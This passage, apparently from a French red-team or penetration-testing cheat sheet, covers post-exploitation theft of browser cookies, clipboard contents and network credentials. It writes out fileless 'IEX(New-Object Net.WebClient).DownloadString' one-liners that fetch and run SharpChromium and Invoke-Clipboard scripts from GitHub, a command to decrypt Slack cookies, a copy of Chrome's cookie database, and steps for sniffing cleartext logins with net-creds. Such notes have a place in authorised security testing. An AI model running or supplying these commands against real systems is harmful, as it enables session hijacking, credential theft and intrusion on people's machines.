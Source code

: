 injecter le cookie.


## Chromium Cookies

DB chiffrée avec les DPAPI

#### SharpChromium

https://github.com/djhohnstein/SharpChromium
https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpChromium.ps1


Se connecte à la db, déchiffre les cookies et retourne le résultat en json

Récupérer SharpChromium en file less

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
```

```powershell
Invoke-SharpChromium -Command "cookies slack.com"
```

si erreur car fichier de db introuvable, copier la db vers la destination chéckée par SharpChromium

```powershell
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```


## Clipboard

Récupérer les données dans le presse papier

http://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
```

Lancer et patienter jusqu'à ce que des données arrivent

```powershell
Invoke-ClipboardLogger
```


## Sniffing Wireshark / Net-Creds / PCredz (Sudo)


1. Lancer Wireshark afin de capturer le trafic.
2. Sauvegarder la capture au format pcap.
3. Lancer net-creds sur le pcap afin d'identifier tous les identifiants en clair https://github.com/DanMcInerney/net-creds
